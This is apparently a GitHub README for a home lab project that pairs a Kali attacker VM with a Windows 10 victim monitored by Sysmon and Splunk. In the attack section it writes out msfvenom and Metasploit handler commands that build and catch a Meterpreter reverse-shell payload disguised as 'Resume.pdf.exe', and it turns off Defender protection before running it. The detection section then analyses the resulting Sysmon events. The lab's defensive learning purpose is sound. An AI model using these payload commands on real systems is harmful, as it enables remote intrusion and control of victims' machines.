

# 🛠️ Cybersecurity Project: Building a Basic Home Lab

This project documents the setup and usage of a **cybersecurity home lab** for practicing threat detection, malware analysis, and network defense in a safe sandboxed environment.  

---

## 🔍 Project Overview

In cybersecurity, practicing on real systems is critical—but dangerous on production machines.  
This project builds an **isolated lab environment** using **VMWare Workstation Player 17, Windows 10, and Kali Linux** to:

- Test new security tools and techniques  
- Safely analyze malware behavior  
- Generate **telemetry logs with Sysmon + Splunk** for detection engineering  
- Practice red-team (attacker) and blue-team (defender) workflows  

---

## ⚙️ Lab Setup (Part 1)

- Installed **VMWare Workstation Player 17** on the host system  
- Verified download integrity with **SHA-256 checksums**  
- Created two virtual machines:
  - **Windows 10 VM** (victim machine) with **Sysmon** & **Splunk** for log collection  
  - **Kali Linux VM** (attacker machine) with penetration testing tools preinstalled  

   
  <em>📸 Figure-1: Screenshot of VMware with both Windows 10 and Kali Linux VMs created</em>

---

## 🌐 Network Configuration (Part 2)

- Proper isolation is critical when executing malware. In **VMware Workstation**, the main network modes are:
  - **Bridged** → VM appears as a separate device on the same physical LAN as the host.  
  - **NAT** → VM shares the host’s IP via NAT; has internet access but is not directly reachable from LAN.  
  - **Host-only** → VM can only communicate with the host (and other host-only VMs); no internet or LAN.  
  - **Custom (VMnetX)** → VM is attached to a specific virtual network you configure.  
  - **LAN segment** → Isolated network where only VMs on the same segment can communicate.  

  

   
  <em>📸 Figure-2: Screenshot of VMware network settings (showing NAT/Internal)</em>

  

- Assigned **static IPs** to Windows (`192.168.194.152`) and Kali (`192.168.194.128`) to ensure communication  

  

   
  <em>📸 Figure-3: Screenshot of Windows <code>ipconfig</code> command showing static IP <code>192.168.194.152</code></em>
  
  

  

   
  <em>📸 Figure-4: Screenshot of Kali <code>ifconfig</code> command showing static IP <code>192.168.194.128</code></em>
 
 

- Validated connectivity via `ping` while keeping machines isolated from the host  

  

    
    

      📸 Figure-5: Screenshot of ping result from Kali VM to Windows VM
    

  

---

## 🧑‍💻 Attack Simulation & Telemetry Collection (Part 3)

- Simulated attacker vs. defender workflows to study system behavior. Steps involed

- **Installation**  
  - First, we will install Splunk in the windows machine  
  - In the windows VM, go to the Splunk website at [Splunk](https://splunk.com), signup and install
  - Splunk should be installed on the Windows machine and accessible at port 8000

    

      
      

        📸 Figure-6: Screenshot of Splunk installed
      

    

  - In Splunk Console, create a custom index named **`endpoint`** (Splunk Web → Settings → Indexes → New Index) to store host telemetry and Sysmon data.   

    

      
      

        📸 Figure-7: Screenshot of endpoint index created in Splunk
      

    

  - Now, let's move to installing [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) in the windows machine.
    - Before installing, you might wonder why we need Sysmon when Splunk is already installed.
      - Sysmon generates rich, granular telemetry → writes it into Windows Event Logs.
      - Without Sysmon, Splunk might only see basic Windows events (logons, service starts, etc.). With Sysmon, you now see deep telemetry like:
        - “Process resume.pdf.exe spawned cmd.exe”
        - “Outbound connection to 192.168.20.11:4444”
        - “Suspicious PowerShell command line”
    - Once Sysmon is installed, let's install the [configuration file](https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml) 
    - Sysmon without a configuration file is almost useless, here’s why:
      - By default, if you just run `.\sysmon.exe -i`, it logs only a very limited set of events.
      - A configuration file (XML) tells Sysmon what exactly to monitor — processes, command-line arguments, network connections, registry modifications, file creation, etc.
    - Run sysmon with the configuration file, using the command `.\sysmon.exe -i sysmonconfig.xml`

     

       
       

         📸 Figure-8: Screenshot of Sysmon installed
       

     

  - Configure Splunk to ingest core Windows Event Logs (Application, Security, System) and route them to the custom index names `endpoint` index (this can be done by adding `inputs.conf` entries).
    - I used this [inputs.conf](https://www.dropbox.com/scl/fi/620i6i0o4idzrtwlqp0qp/inputs.conf?rlkey=elni2v55mpzfab72qxr5wxk3s&e=1&dl=0)
    - After that, we then need to restart the `Splunkd Service`

    

     
     

       📸 Figure-9: Screenshot of inputs.conf
     

    

    

     
     

       📸 Figure-10: Screenshot of data being ingested at the `endpoint` index
     

    

  - In splunk, to parse Sysmon telemetry, we will need to install **Splunk Add-on for Sysmon**

- **Reconnaissance**  
  - Ran `nmap -A 192.168.194.152 -Pn` from Kali to scan Windows 10 VM  
  - Discovered open services (e.g., RDP on port 3389)
  - However, in order to see RDP port 3389/tcp open, we need to enable Remote Desktop and allow it through the firewall.

   

     
     

       📸 Figure-11: Screenshot of Nmap scan results on Kali
     

   

- **Malware Creation**  
  - Generated malware using reverse TCP payload in **msfvenom**  
  - Ran the command `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.194.128 lport=4444 -f exe -o Resume.pdf.exe`
  - We will then open up a handler to listen in on the port we have configured in the malware.
  - To do that we will open **metasploit** by typing **msfconsole**, within this we will use following series of commands-
    - `use exploit/multi/handler`
    - `set payload windows/x64/meterpreter_reverse_tcp`
    - `set lhost 192.168.194.128`  
    - `exploit`
  - We are now listening and waiting for our windows machine to execute the malware

    

       
       

         📸 Figure-12: Screenshot of msfvenom payload generation and handler listening
       

     

  - In other terminal window, we hosted malicious file via Python HTTP server so that our windows machine can download the malware

    

      
      

        📸 Figure-13: Screenshot of Python HTTP server serving the payload
      

    

  - Before downloading and executing the malware we will need to disable the Microsoft Windows Defender by turning off Real-time protection
    - We will then execute the malware on Windows 10 to establish **reverse shell** connection  

     

       
       

         📸 Figure-14: Screenshot showing malicious process executed in Windows machine (resume.pdf.exe)
       

     

- **Exploitation**  
  - Obtained Meterpreter shell  
  - Executed commands like `net user`, `ipconfig`, and `net localgroup`  

   

     
     

       📸 Figure-15: Screenshot of Meterpreter session with executed commands
     

   

  
- **Detection Engineering (Blue Team)**

  - `Event ID 1` -> Parent process spawning (`resume.pdf.exe → cmd.exe`)  
    - **Why this is abnormal?**
      - Normally, a PDF file should open with Adobe Reader or Edge, not launch `cmd.exe`.
        - The fact that `Resume.pdf.exe` spawned a command shell is a red flag 🚩 — it suggests malicious behavior. 
        - Attackers often hide malware inside executables named like documents (e.g., `resume.pdf.exe`).
        - When opened, instead of showing a document, it secretly spawns `cmd.exe` or PowerShell to run attacker commands or download more malware

     

       
       

         📸 Figure-16: Screenshot of process spawn
       

     

  - `Event ID 3` -> Outbound connections to Kali attacker IP  
    - **Why This Matters**
        -`Resume.pdf.exe` spawned `cmd.exe` earlier (Event ID 1). That showed process creation (suspicious parent-child relationship).   
      - Now, `Resume.pdf.exe` makes a network connection (`Event ID 3`). This shows the malware trying to talk to your attacker machine (Kali).
        - Ephemeral Source Port (`51789`)
          - When a client (Windows) connects to a server (Kali), Windows chooses a random high-numbered source port.
          - That’s why you saw a random port in your reverse TCP connection earlier.
          - The important part is the destination (Kali:`4444`), because that’s where the attacker is listening. 

     

       
       

         📸 Figure-17: Screenshot of network connection to Kali IP
       

     

  - Using ProcessGUID, I correlated `Event ID 1` (process creation) with `Event ID 3` (network connection) to detect suspicious outbound traffic from unexpected parent-child processes.  
  - The screenshot below shows `Resume.pdf.exe` spawning `cmd.exe`, which then executed commands like `net user`, `net localgroup`, and `ipconfig`, illustrating the malicious process chain.

     

       
       

         📸 Figure-18: Screenshot of suspicious commands chain (Resume.pdf.exe → cmd.exe → net/ipconfig)
       

     

---

## 🧾 Key Learning Outcomes

- Gained practical experience with **VM setup & isolation** for cybersecurity testing  
- Understood **network modes** (NAT, Bridged, Host-Only, Internal) and their security implications  
- Built custom **malware payloads** and analyzed their behavior  
- Developed **Splunk queries** for detecting suspicious process creation and network activity  
- Strengthened hands-on skills in both **offensive security (red team)** and **defensive monitoring (blue team)**  

---

## 🧾 Issues faced during the project

- RDP (Port 3389) not detected in Nmap scans  
  - Initially, Nmap showed port `3389/tcp` as *filtered*. This happened because Remote Desktop was disabled by default in Windows and not allowed through the firewall.  
  - Fixed by enabling **Remote Desktop** in System Properties, allowing it in **Windows Defender Firewall (Private + Public)**, and confirming the service was running. After that, Nmap correctly reported `3389/tcp open`.
- Sysmon data not ingested (`inputs.conf` issue)
  - At first, Sysmon events were not visible in Splunk even though Splunk was installed and running. The issue was that `inputs.conf` had no explicit stanzas for **Application, Security, System, and Sysmon/Operational logs**. Without these, Splunk wasn’t indexing the right event sources.
  - Fixed by creating custom stanzas in `C:\Program Files\Splunk\etc\system\local\inputs.conf` pointing logs to the `endpoint` index and restarting the `Splunkd` service. This ensured all relevant Windows Event Logs + Sysmon telemetry flowed into Splunk.
- VMs losing internet connectivity (NAT issue)
  - During testing, both the Windows and Kali VMs occasionally lost internet access and could not ping each other. Running `ipconfig`/`ifconfig` showed that the default gateway was missing or unreachable. This happened because VMware’s **NAT service** on the host machine stopped working properly, breaking the virtual network translation.  
  - Fixed by restarting the **VMware NAT Service** on the host machine, which re-established the default gateway and restored connectivity between VMs and the internet.

---

## 📌 Professional Value

- This project demonstrates:

  - **Hands-on SOC skills**: detection engineering, log analysis, incident investigation  
  - **Practical malware analysis** in a controlled lab environment  
  - **Strong understanding of attack/defense lifecycle** across MITRE ATT&CK stages  

---

## 🔗 References

- [YouTube Series Part 1](https://www.youtube.com/watch/kku0fVfksrk) – Lab setup with VirtualBox  
- [YouTube Series Part 2](https://www.youtube.com/watch/5iafC6vj7kM) – Network configuration  
- [YouTube Series Part 3](https://www.youtube.com/watch/-8X7Ay4YCoA) – Attack simulation & telemetry  
- [Splunk Installation](https://www.youtube.com/watch?v=iaBJ-PK8_RI) - Assist with Splunk Installation  
- [Sysmon Installation](https://www.youtube.com/watch?v=uJ7pv6blyog) - Assist with Sysmon Installation

---
